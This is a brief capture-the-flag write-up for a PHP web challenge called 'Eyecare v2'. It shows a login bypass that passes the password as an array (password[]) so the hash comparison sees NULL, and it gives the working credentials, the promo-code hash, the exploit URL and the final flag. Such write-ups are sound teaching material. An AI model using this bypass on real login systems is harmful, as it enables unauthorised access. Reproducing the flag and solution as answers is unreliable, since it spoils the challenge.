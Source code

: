 ## Eyecare v2
The main idea to find the flag is PHP vulnerability exploitation of NULL string.

#### Step-1:
We are given this link: [http://admin-bytectf.herokuapp.com/](http://admin-bytectf.herokuapp.com/)

Also this image `eyecarev2.png`:

<img src="eyecarev2.png">

#### Step-2:
After I visited the website, we are greeted with:

<img src="Web1.png">

After some futile tries of accessing, I got the PHP vuln there and get to know that Promo Code is SHA256 hash of hash is just hash of the password or username with key value set to null.

The following credentials work:

```c
Username: o
Password: string (any string)
Promo Code: 49a8f62406c86b65a6758790bc1fd124cc0be320539ee35aa6838edc1cf3b4df
```
The same can be accessed [here](http://eyecare.byethost32.com/v2/verify.php?username=o&password[]=ok&promo=49a8f62406c86b65a6758790bc1fd124cc0be320539ee35aa6838edc1cf3b4df).


<img src="Web2.png">

<img src="Web3.png">

<img src="Flag.png">

#### Step-3:
Finally, the flag becomes:
`flag{3y3c4r3bu7wi7hh45h35}`